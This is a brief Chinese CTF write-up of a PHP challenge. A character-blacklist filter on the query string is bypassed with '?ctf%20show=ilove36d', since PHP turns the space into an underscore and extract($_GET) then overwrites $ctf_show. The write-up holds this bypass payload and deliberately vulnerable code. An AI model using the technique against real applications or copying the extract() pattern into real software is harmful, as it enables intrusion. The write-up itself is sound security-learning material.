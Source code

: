 # 知识点
还是利用了php对GET、POST以及COOKIES的变量解析的体系绕过了特殊字符的过滤
### **利用PHP的字符串解析特性Bypass**
[https://www.freebuf.com/articles/web/213359.html](https://www.freebuf.com/articles/web/213359.html)
### 相关php内核分析（现在还看不懂QAQ）
[https://y4tacker.blog.csdn.net/article/details/120502141](https://y4tacker.blog.csdn.net/article/details/120502141)
# 思路
```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-10 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-10 21:52:49

*/


error_reporting(0);
include("flag.php");
highlight_file(__FILE__);
$ctf_show = md5($flag);
$url = $_SERVER['QUERY_STRING'];


//特殊字符检测
function waf($url){
    if(preg_match('/\`|\~|\!|\@|\#|\^|\*|\(|\)|\\$|\_|\-|\+|\{|\;|\:|\[|\]|\}|\'|\"|\<|\,|\>|\.|\\\|\//', $url)){
        return true;
    }else{
        return false;
    }
}

if(waf($url)){
    die("嗯哼？");
}else{
    extract($_GET);
}


if($ctf_show==='ilove36d'){
    echo $flag;
}
```
```php
?ctf%20show=ilove36d
```
![image.png](./images/20231017_2349541538.png)

